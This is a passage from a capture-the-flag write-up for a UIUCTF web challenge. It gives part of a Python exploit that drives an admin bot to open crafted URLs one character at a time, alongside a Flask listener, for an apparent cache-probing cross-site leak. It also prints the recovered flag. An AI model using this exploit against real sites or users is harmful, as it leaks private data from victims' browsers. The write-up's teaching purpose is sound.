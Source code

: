 ```python

def send_bot():
    global condition
    for char in char_list:
        if condition:
            bot = remote(bot_url, bot_port, level='error' )
            url = poc_url + FLAG + char.encode('utf-8')

            #log.info(f'Send url : {url}')
            sleep(1)
            bot.sendlineafter(b'Please send me a URL to open.\n', url)
        else:
            exit(0)

def run_flask():
    app.run(host="0.0.0.0", port=9999)

if __name__ == '__main__':
    t1 = Thread(target=run_flask)
    t2 = Thread(target=send_bot)

    t1.start()
    t2.start()
```
The exploit code is as above. So I'll execute an exploit code!

![image](https://user-images.githubusercontent.com/49112423/128597089-6d2f7f9e-b188-4b1e-9ea6-5bd63553a072.png)

![image](https://user-images.githubusercontent.com/49112423/128597208-416e8fdc-9e0d-471d-93df-0fb40b353f8f.png)

(skip..)

![image](https://user-images.githubusercontent.com/49112423/128597345-a635ec41-3e60-4fa2-b77c-658cacf3104d.png)

Success! I got the flag :) 

```
uiuctf{y0u_m4y_w4nt_2_d3let3_y0ur_gh_p4g3s_s1t3_or_r1sk_0thers_d01ng_4_crtsh_lo0kup}
```

---
## Reference

Reference : [https://xsleaks.dev/docs/attacks/cache-probing/](https://xsleaks.dev/docs/attacks/cache-probing/)<br>
Reference : [https://stackoverflow.com/questions/26200367/cache-image-to-disk](https://stackoverflow.com/questions/26200367/cache-image-to-disk)

---
